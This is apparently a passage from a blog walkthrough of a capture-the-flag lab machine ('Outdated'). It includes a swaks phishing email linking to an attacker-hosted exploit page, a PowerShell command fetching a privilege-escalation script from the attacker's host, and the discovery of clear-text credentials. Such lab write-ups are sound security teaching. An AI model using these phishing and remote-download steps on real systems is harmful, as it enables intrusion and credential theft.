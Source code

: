 -   **Send my email via** `swaks`:
    -   `swaks --to itsupport@outdated.htb --from bloodstiller@bloodstiller.com --server mail.outdated.htb --body "Here is the web app - http://10.10.14.43/exploit.html" --header "Subject: Web"`

-   **We immediately get a hit on the web server**:
    -   {{< figure src="/ox-hugo/2024-10-11-075043_.png" >}}

-   **We catch our shell Caught**:
    -   {{< figure src="/ox-hugo/2024-10-11-075203_.png" >}}


### Enumerating as the user `btables`: {#enumerating-as-the-user-btables}


#### Checking if `PrintSpoofer` is a viable exploit path: {#checking-if-printspoofer-is-a-viable-exploit-path}

-   **As we saw that** `PrintSpooler/PrintSpoofer` **was mentioned the first thing to check is the privileges of our user**:
    -   To perform this attack we need either `SeAssignPrimaryTokenPrivilege` or `SeImpersonatePrivilege` we have neither.
    -   {{< figure src="/ox-hugo/2024-10-11-101536_.png" >}}
    -   Maybe we can activate them with [EnableAllTokePrivs.ps1](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77)

-   **I transer** [EnableAllTokePrivs.ps1](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77):
    -   `powershell -c wget http://10.10.14.43:9000/EnableAllTokenPrivs.ps1 -o tp.ps1`
    -   {{< figure src="/ox-hugo/2024-10-11-101954_.png" >}}

-   **I run it**:
    -   {{< figure src="/ox-hugo/2024-10-11-102126_.png" >}}
    -   No luck:
    -   {{< figure src="/ox-hugo/2024-10-11-102149_.png" >}}


#### Finding a `check_mail.ps1` script containing clear text creds: {#finding-a-check-mail-dot-ps1-script-containing-clear-text-creds}

-   **I discover a script called** `check_mail.ps1` **in the users home folder**::
    -   {{< figure src="/ox-hugo/2024-10-10-183411_.png" >}}

-   **Reading the contents of the script reveals a new username and a clear-text password**:
    -   {{< figure src="/ox-hugo/2024-10-10-190326_.png" >}}
    -   I add the username and password to my list:

-   **I check if the username &amp; password can be used to access SMB or LDAP but they cannot**:
    -   {{< figure src="/ox-hugo/2024-10-11-094845_.png" >}}


#### Reading Emails using `check_mail.ps1`: {#reading-emails-using-check-mail-dot-ps1}

-   **I run the** `check_mail.ps1` **script**:
    -   `powershell -c .\.check_mail.ps1`
    -   {{< figure src="/ox-hugo/2024-10-11-095038_.png" >}}
    -   I have a feeling this is just the automated mechanism to read the email we sent.
